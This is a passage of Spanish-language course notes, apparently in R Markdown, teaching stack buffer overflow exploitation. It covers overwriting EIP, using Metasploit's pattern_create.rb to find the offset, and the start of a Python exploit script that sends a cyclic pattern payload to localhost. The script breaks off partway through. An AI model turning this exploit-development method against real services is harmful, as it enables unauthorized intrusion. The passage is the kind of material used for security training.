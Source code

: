 
```{r, echo = FALSE, fig.cap="BufferOverflow explicacion stack", out.width="90%"}
    knitr::include_graphics("images/Buff-stack_explanation.png")
```

En el graphico vemos las **A** que es lo que suele passar cuando le enviamos data al programma, en este casso **A**. Si el buffer
definido no esta sanitizado correctamente y que le enviamos mas **A** de lo previsto, las **A** van subiendo hasta que sobre escriba
registros como el **EBP** y el **RET tambien llamado EIP**. Lo podemos ver en el Immunity Debugger aqui.

```{r, echo = FALSE, fig.cap="BufferOverflow overflow with A", out.width="90%"}
    knitr::include_graphics("images/Buff-As.png")
```

Aqui se puede ver un monton de "41414141" que 41 es el valor Hexadecimal ASCII de la lettra A. 

Lo critico aqui es cuando el atacante toma el control del **EIP (RET)** porque el **EIP** define donde appunta la siguiente instruccion a 
ejecutar. En el caso de las **A**, el programma cuando llega al EIP piensa que la siguiente instruccion que hay que ejecutar se encuentra en
la Memory Address 0x41414141 (porque la hemos sobre escrito), y claro como esta direccion no existe hace que el programma pete.

#### Etapa 3: Sobre escribir el EIP {-}

Como atacante, ahora tenemos que saver cuantas **A** tenemos que meter para sobre escribir el **EIP** con el valor que nosotros queremos meter.
La technica para que sea visual seria ponerl 0x42424242 al EIP que serian cuatro vecez la lettra **B**.

Hay una utlidad que nos permitte crear un pattern de caracteres aleatorios para encontrar mas facilmente donde se encuentra el EIP o mejor dicho cuantas **A**
tengo que poner antes de ponerle las **B**.

En la maquina de atacante

```bash
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 5000
```

esto lo podemos copiar y ponerlo en nuestro exploit.

```python
#!/usr/bin/python3

import socket
import signal
import pdb
import sys
import time

from pwn import *
from struct import pack

# Variables globales
remoteAddress = "127.0.0.1"

def executeExploit():
    payload = b"Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7A
    e8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9Ak
    0Ak1Ak2Ak3Ak4Ak5Ak6Ak7Ak8Ak9Al0Al1Al2Al3Al4Al5Al6Al7Al8Al9Am0Am1Am2Am3Am4Am5Am6Am7Am8Am9An0An1An2An3An4An5An6An7An8An9Ao0Ao1Ao2Ao3Ao4Ao5Ao6Ao7Ao8Ao9Ap0Ap1Ap2
    Ap3Ap4Ap5Ap6Ap7Ap8Ap9Aq0Aq1Aq2Aq3Aq4Aq5Aq6Aq7Aq8Aq9Ar0Ar1Ar2Ar3Ar4Ar5Ar6Ar7Ar8Ar9As0As1As2As3As4As5As6As7As8As9At0At1At2At3At4At5At6At7At8At9Au0Au1Au2Au3Au4A
    u5Au6Au7Au8Au9Av0Av1Av2Av3Av4Av5Av6Av7Av8Av9Aw0Aw1Aw2Aw3Aw4Aw5Aw6Aw7Aw8Aw9Ax0Ax1Ax2Ax3Ax4Ax5Ax6Ax7Ax8Ax9Ay0Ay1Ay2Ay3Ay4Ay5Ay6Ay7Ay8Ay9Az0Az1Az2Az3Az4Az5Az6Az
```